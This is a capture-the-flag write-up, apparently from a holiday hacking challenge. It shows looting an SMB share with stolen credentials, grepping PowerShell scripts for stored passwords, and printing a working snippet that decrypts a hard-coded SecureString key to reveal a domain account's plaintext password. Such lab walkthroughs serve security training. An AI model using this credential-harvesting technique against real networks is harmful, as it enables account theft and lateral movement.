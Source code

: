 # Yaaarrr! (Time to Plunder)

Now that I had a new set of credentials (`elf_svc:Snow2021!`), it was time to see what I could do with it. After some poking around, I discovered that with my new creds I can access the `//10.128.3.30/elfu_svc_shr` share via SMB! Opening it up with `smbclient`, I noticed that it contained a bunch of powershell files.

![SMB](/img/obj8-8/img1.png)

I downloaded them all to the local dir with:
`prompt off` -- To turn off the "Are you sure?" ptompt
`mget *.*` -- Download absolutely everything


Now that I had the files stored locally, I could simply `grep` through everything. This was useful because now I can look for any hard-coded passwords or anything similar.

Searching for "passw" gave me a bunch of things, but I wanted to narrow it down more.

`grep -i passw *`

Then I remembered, Storing a password in Powershell generally calls upon the usage of converting text to a `SecureString` with `ConvertTo-SecureString` so I searched for that:

`grep 'ConvertTo-SecureString' *`

And I got a bit less. Some interesting files I particularly liked was `Encryption.ps1` and `HelperFunctions.ps1`, but after manually looking through everyone I discovered an interesting file: `GetProcessInfo.ps1`:

```powershell
$SecStringPassword = "76492d1116743f0423413b16050a5345MgB8AGcAcQBmAEIAMgBiAHUAMwA5AGIAbQBuAGwAdQAwAEIATgAwAEoAWQBuAGcAPQA9AHwANgA5ADgAMQA1ADIANABmAGIAMAA1AGQAOQA0AGMANQBlADYAZAA2ADEAMgA3AGIANwAxAGUAZgA2AGYAOQBiAGYAMwBjADEAYwA5AGQANABlAGMAZAA1ADUAZAAxADUANwAxADMAYwA0ADUAMwAwAGQANQA5ADEAYQBlADYAZAAzADUAMAA3AGIAYwA2AGEANQAxADAAZAA2ADcANwBlAGUAZQBlADcAMABjAGUANQAxADEANgA5ADQANwA2AGEA"
$aPass = $SecStringPassword | ConvertTo-SecureString -Key 2,3,1,6,2,8,9,9,4,3,4,5,6,8,7,7
$aCred = New-Object System.Management.Automation.PSCredential -ArgumentList ("elfu.local\remote_elf", $aPass)
Invoke-Command -ComputerName 10.128.1.53 -ScriptBlock { Get-Process } -Credential $aCred -Authentication Negotiate
```

This simply invokes the `Get-Process` command on the `10.128.1.53` host. However the password apparently seems to be encrypted. I've seen this particular method performed before, and honestly I don't understand why it's even used since decrypting it is trivial. So trivial, I can show you right here. I'll simply write the following Powershell script:

```powershell
$SecStringPassword = "76492d1116743f0423413b16050a5345MgB8AGcAcQBmAEIAMgBiAHUAMwA5AGIAbQBuAGwAdQAwAEIATgAwAEoAWQBuAGcAPQA9AHwANgA5ADgAMQA1ADIANABmAGIAMAA1AGQAOQA0AGMANQBlADYAZAA2ADEAMgA3AGIANwAxAGUAZgA2AGYAOQBiAGYAMwBjADEAYwA5AGQANABlAGMAZAA1ADUAZAAxADUANwAxADMAYwA0ADUAMwAwAGQANQA5ADEAYQBlADYAZAAzADUAMAA3AGIAYwA2AGEANQAxADAAZAA2ADcANwBlAGUAZQBlADcAMABjAGUANQAxADEANgA5ADQANwA2AGEA"
$aPass = $SecStringPassword | ConvertTo-SecureString -Key 2,3,1,6,2,8,9,9,4,3,4,5,6,8,7,7
$aCred = New-Object System.Management.Automation.PSCredential -ArgumentList ("elfu.local\remote_elf", $aPass)
$aCred.GetNetworkCredential() | fl
```

With the above, I can run everything up to the `$aCred` line and then just print out the password!

![Printing the Creds](/img/obj8-8/img2.png)


Executing the above shows:

```text
UserName       : remote_elf
Password       : A1d655f7f5d98b10!
SecurePassword : System.Security.SecureString
Domain         : elfu.local
```

New credentials! What wonderous things will *you* unlock now?